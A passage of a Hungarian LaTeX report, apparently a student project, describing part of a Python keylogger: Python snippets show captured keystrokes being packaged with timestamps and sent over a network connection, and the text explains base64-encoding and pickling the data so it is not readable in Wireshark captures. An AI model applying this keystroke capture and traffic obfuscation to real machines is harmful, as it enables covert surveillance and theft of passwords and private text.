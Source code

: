 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
A billentyűzet lehalgató után felépítődik az adat, amit a kapcsolaton keresztül elküld. Minden adatépítés után a $keys$ változó a $None$ értéket veszi fel. Adatépítésre és küldésre csak akkor kerül sor, ha a $keys$ változó nem $None$.
\begin{lstlisting}{language=Python}
if self.keys is not None:
	date_time = get_time()
	key = str(self.keys).replace("'", "")
	data = ["chars", date_time, key]
	self.keys = None
	data = str(data)
\end{lstlisting}
A $get\_time$ függvény visszatéríti az adott időt ``nap/hónap/év $|$ óra:perc:másodperc'' formátumban.
\begin{lstlisting}{language=Python}
'''
Gets current time

@return: time in dd/mm/yyyy | HH:MM:SS format
'''
def get_time():
	date_time = datetime.now().strftime("%d/%m/%Y | %H:%M:%S")
	return date_time
\end{lstlisting}
A $keys$ változóba karakterként vagy karakterláncként kerül a lenyomott billentyű, ezért le kell cseélni a szélső idézőjeleket üres karakterekre. Karakter helyett akkor kerül karakterlánc, ha olyan karaktereket nyomunk le, amelyek nem nyomtathatóak, például: $ENTER$, $SPACE$, stb. Ilyenkor $Key.enter$ vagy $Key.space$ stb formátumban kapjuk meg.

A hálózaton közlekedő adatokat meg lehet nézni a wireshark szoftverrel, amelyet csomagok analizálására használnak. Észre lehet venni, hogy az adatok emberileg olvashatóak (ábra \ref{fig:packetcapture}), ezért a python base64 modulját alkalmazva kódoljuk a küldendő adatokat. A kódolás után a $pickle$ modul segítségével bájtokká tömörítjük az adatokat.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/wiresharkcapture}
\caption{A csomag wireshark-al elfogva}
\label{fig:packetcapture}
\end{figure}
\end{document}
